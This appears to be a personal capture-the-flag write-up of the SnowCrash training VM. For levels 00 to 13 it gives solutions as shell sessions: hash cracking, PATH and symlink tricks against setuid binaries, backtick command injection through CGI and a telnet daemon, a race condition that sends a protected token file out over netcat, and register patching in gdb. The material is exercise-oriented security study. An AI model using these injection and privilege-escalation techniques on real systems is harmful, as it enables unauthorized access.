


# SnowCrash
_(::Highlighted:: are the parts that I couldn’t solve on my own and had to look up in other posts available online)_

## Level 00 (vulnerable file + simple cipher)
::Searching for files wonder by user `flag00`::

```sh
> find / -user flag00 2>/dev/null
/usr/sbin/john
/rofs/usr/sbin/john
> cat /usr/sbin/john
cdiiddwpgswtgt
```

### Index of coincidence 

Analysis index of coincidence for  `cdiiddwpgswtgt`  using [Index of Coincidence Calculator - Online IoC Cryptanalysis](https://www.dcode.fr/index-coincidence)

_Result: 0.07692_



### Trying Caesar Cipher

The simplest substitution cipher using https://www.dcode.fr/caesar-cipher. A shift of +15 yields `nottoohardhere`.

```sh
> su flag00
> getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias
```

- - - -
## Level 01 (storing weak hashes in /etc/passwd)
```sh
> cat /etc/passwd
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

The second field having value `42hDRfypTqqnw` is a password hash. Suspecting a DES hash because those are 13 characters long. Cracking it using [John the Ripper password cracker](https://www.openwall.com/john) installed on a local machine.

```sh
> john --show <(echo 42hDRfypTqqnw)
abcdefg
```

Logging in as `flag01` and running `getflag` yields `f2av5il02puano7naaf6adaaf`

- - - -
## Level 02 (capturing wireless packets)

```sh
> ls -l ~
total 12
----r--r-- 1 flag02 level02 8302 Aug 30  2015 level02.pcap
```

* Opening `level02.pcap` in [Wireshark · Download](https://www.wireshark.org/download.html)
* Following packet containing the word “Password”:



In ASCII `0x7f` corresponds to `DEL`. The password is, therefore, `ft_waNDReL0L`.

The flag is `kooda2puivaav1idi4f57q8iq`
- - - -

## Level 03 (setuid exploit)
```sh
> ls -l ~
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

`setuid` flag is set => can try to exploit

```sh
> strings level03
/usr/bin/env echo Exploit me
> ltrace level03
system("/usr/bin/env echo Exploit me"...)
> chmod 755 .
> echo '#!/bin/bash' >> ./echo; echo 'getflag' >> ./echo
> chmod 755 ./echo
> export PATH="/home/user/level03:$PATH"
> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

- - - -

## Level 04 (CGI exploit)
`setuid` is again set, but new perl interpreters don’t take it into account.

```sh
> ./level04.pl x='`getflag `'
Content-type: text/html

Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)
```

::However, trying to use perl with a CGI::

```sh
> curl 'localhost:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

- - - -

## Level 05 (cron exploit)
```sh
You have mail.
> cat /var/spool/mail/$USER
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
> /usr/sbin/openarenaserver
Permission denied
> ls -l $_
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver*
> getfacl $_
user:level05:r--
> cat $_
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
> ls /opt/openarenaserver
> ls -ld /opt/openarenaserver/
drwxrwxr-x+ 2 root root 40 Apr 30 21:01 /opt/openarenaserver/
> getfacl /opt/openarenaserver/
user:flag05:rwx
> service cron status
cron start/running, process 1298
```

The script above is run by `cron` every 30 seconds. We have permissions to add a script to the directory `/opt/openarenaserver/`.

Create a file `/opt/openarenaserver/script.sh` with the following content

```sh
getflag > /opt/openaserver/getflag_output
```

In half a minute, a file called `/opt/openaserver/getflag_output` will appear with the following contents

`Check flag.Here is your token : viuaaale9huek52boumoomioc`

Don’t miss it, because it will be automatically removed in 30 seconds.

- - - -

## Level 06 (preg_replace exploit)
```sh
> chmod 755 .
> echo '[x {$y('getflag')}]' > shell_exec
> ./level06 shell_exec BLA
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```

- - - -

## Level 07 (setuid exploit) 
```sh
> ltrace ./level07
getenv("LOGNAME")                                = "level07"
system("/bin/echo level07 "level07...
> export LOGNAME='`getflag`'
> ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

- - - -

## Level08 (setuid exploit)
```sh
> ll level08
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
> getfacl level08
group:level08:r-x
> ltrace ./level08 token
strstr("token", "token")                         = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)     = 27
> chmod 755 .
> ln -s token soft_link
> ./level08 soft_link
quif5eloekouj29ke0vouxean
```

Running `getflag` as `flag08` yields the token `25749xKZ8L7DkSCwJkT9dyv6f`

- - - -

## Level09 (simple cipher)

```sh
> ./level09 token
tpmhr
> ./level09 aaaaaaa
abcdefg
> cat token
f4kmm6p|=?p?n??DB?Du{??
```

::Is it an incremental shift cipher using ASCII?:: Decoding it with the following program

```C
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>

int main() {
	int fd;
	char buffer[100];
	ssize_t nread;
	ssize_t i;

	fd = open("./token", O_RDONLY);
	nread = read(fd, buffer, 100);

	i = 0;
	while (i < nread) {
		buffer[i] -= (int)i;
		++i;
	}

	buffer[i] = 0;
	printf("%s", buffer);
}
```

yields the token `f3iji1ju5yuevaus41q1afiuq`. Running `getflag` as `flag09` yields `s5cAJpM8ev6XHw998pRWG728z`.

/*NOTE: This is not a `ptrace` exploit!*/

- - - -

## Level10 (access syscall exploit)
```sh
> ll
rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
> strings level10
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
/usr/include/netinet
```

Should I send the file `token`  on port 6969?

```sh
# on my local machine
> nc -l 6969
# in virtual machine
> chmod 755 . && echo HELLO > test
> ./level10 test 192.168.8.111
Connecting to 192.168.8.111:6969 .. Connected!
Sending file .. wrote file!
# on my local machine
.*( )*.
HELLO
```

However, sending `token` fails:

```sh
> ./level10 token 192.168.8.111
You don't have access to token
```

::Let’s examine library calls:::

```sh
> gdb ./level10
(gdb) layout asm
0x8048749 <main+117>    call   0x80485e0 <access@plt>
```

Implementing `access` syscall exploitation:

```sh
# In a terminal window
> while true; do ln -s -f test link; ln -s -f token link; done
# In another terminal window
> while true; do ./level10 link 192.168.8.111; done
# On local computer
> while true; do nc -l 6969 ; done
.*( )*.
HELLO
.*( )*.
HELLO
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
^C
```

Running `getflag` as `flag10` yields `feulo4b72j7edeahuete3no7c`.

- - - -

## Level 11 (command injection and writing to a file)
Opening a `level11.lua` file, we see that a daemon is listening on local port 5151 and asking for a password upon a connection. The hash is `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`. A quick Google search yields to a cracked hash: `NotSoEasy`. This is not a password for `flag11`. Connecting to the daemon doesn’t help either.

However, the string interpolation makes this script vulnerable to a command injection

```sh
> telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: ; getflag > /tmp/BLABLABLA.txt #
Erf nope..
Connection closed by foreign host.
> cat /tmp/BLABLABLA.txt
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

- - - -

## Level 12 (CGI command injection)
Looking at the script, we see that the parameter `x` is vulnerable to a command injection. However, due to preprocessing we’re unable to inject a full-fledged command as spaced would be deleted. If we tried to instead provide a script, we’d need to avoid having lowercase letters in its name.

```sh
> echo "getflag > /tmp/passed.txt" > /tmp/000
> chmod 777 /tmp/000
> curl 'localhost:4646?x="`/*/000`"'
> cat /tmp/passed.txt
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

- - - -

## Level 13 (overwriting registers)
```sh
> strings level13
UID %d started us but we we expect %d
your token is %s
level13_back.c
> ./level13 
UID 2013 started us but we we expect 4242
```

So we need to spoof having a `uid` of 4242. The way to do it is ::by modifying register values directly while a program is being run:: using `gdb`. 

```sh
> gdb ./level13
(gdb) disas main
0x08048595 <+9>:	call   0x8048380 <getuid@plt>
0x0804859a <+14>:	cmp    $0x1092,%eax
0x0804859f <+19>:	je     0x80485cb <main+63>
(gdb) break *0x0804859a
(gdb) run
(gdb) info registers
eax            0x7dd	2013 # 2013 is my current uid
(gdb) set $eax = 0x1092 # 0x1092 is 4242 in decimal
(gdb) cont
Continuing.
your token is 2A31L79asukciNyi8uppkEuSx
[Inferior 1 (process 3657) exited with code 050]
```

- - - -

## -Cheat-
An unencrypted `.iso` file can be mounted on a local computer with all its filesystem accessible. Therefore, it’s is possible to read all tokens without solving the challenges. On my local Mac, I can do this with the help of the command

```sh
> sudo unsquashfs /Volumes/SnowCrash/casper/filesystem.squashfs
```